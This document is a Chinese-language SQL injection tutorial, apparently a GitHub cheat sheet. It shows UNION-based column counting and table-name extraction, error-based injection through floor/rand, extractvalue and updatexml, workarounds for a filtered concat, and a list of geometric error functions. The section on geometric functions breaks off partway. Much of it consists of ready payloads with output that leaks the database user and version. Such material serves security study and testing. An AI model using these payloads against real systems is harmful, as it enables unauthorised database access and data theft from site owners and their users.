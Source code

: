 #### 1.判断字段数
ORDER BY判断字段数。     
ORDER BY n+1; 让n一直增加直到出现错误页面。  
#### 2.寻找输出位
#### 3.构造EXP
Eg.  
``` 
 查询语句 SELECT username, password, permission FROM Users WHERE id = '1'; 
 1' ORDER BY 1--+ True 
 1' ORDER BY 2--+ True 
 1' ORDER BY 3--+ True 
 1' ORDER BY 4--+ False 
说明查询只用了3个字段。    
-1' UNION SELECT 1,2,3--+ True //在页面找到输出的字段值     
-1' UNION SELECT 1,GROUP_CONCAT(table_name),3 FROM information_schema.tables WHERE table_schema=database();
```
### 0x05 报错型注入
报错关键词有： floor、extractvalue、updatexml、geometrycollection、multipoint、polygon、multipolygon、linestring、multilinestring、ST_LatFromGeoHash、ST_LongFromGeoHash、GTID_SUBSET、GTID_SUBTRACT、ST_PointFromGeoHash
#### 1. floor方式
```
select 1,count(*),concat(0x3a,0x3a,(select user()),0x3a,0x3a,floor(rand(0)*2))a from information_schema.columns group by a;
```
释义:
>rand() 随机数函数 产生0-1的随机数
count(_) 计数
floor() 向下取整函数，舍去小数点，比如：floor(1.3)=1
floor(rand()_2) 结果只有0和1
group by name 按name的首位字典顺序排列
concat() 连接括号里面的内容
此处有三个点，一是需要count计数，二是floor，取得0 or 1，进行数据的重复，三是group by进行分组，但具体原理解释不是很通，大致原理为分组后数据计数时重复造成的错误。也有解释为mysql 的bug 的问题。但是此处需要将rand(0)，rand()需要多试几次才行。
#### 2. xpath函数
xpath处理函数:
__extractvalue__
__updatexml__
从mysql5.1.5开始提供两个XML查询和修改的函数，其中extractvalue负责在xml文档中按照xpath语法查询节点内容，updatexml则负责修改查询到的内容   
```
mysql> select * from mysql.user where user = 'root' and extractvalue(1,concat(0x5c,user()));
ERROR 1105 (HY000): XPATH syntax error: '\root@localhost'
mysql> select * from mysql.user where user = 'root' and updatexml(1,concat(0x5c,user()),1);
ERROR 1105 (HY000): XPATH syntax error: '\root@localhost'
```
如果concat被过滤了，可以使用其他函数代替   
MAKE_SET(bits,str1,str2,…)
```
mysql> select * from mysql.user where user = 'root' and extractvalue(1,make_set(3,'~',version()));
ERROR 1105 (HY000): XPATH syntax error: '~,5.5.40-log'
```
lpad()
```
mysql> SELECT LPAD('hi',4,'??'); -> '??hi'
mysql> select * from mysql.user where user = 'root' and extractvalue(1,lpad((version()),20,'@'));
ERROR 1105 (HY000): XPATH syntax error: '@@@@@@@@@5.5.40-log'
```
#### 3.几何函数
几何函数有：geometrycollection()，multipoint()，polygon()，multipolygon()，linestring()，multilinestring()
一些函数在Mysql 5.0.中存在但是不会报错,5.1后才可以报错   
>geometrycollection()
multipoint()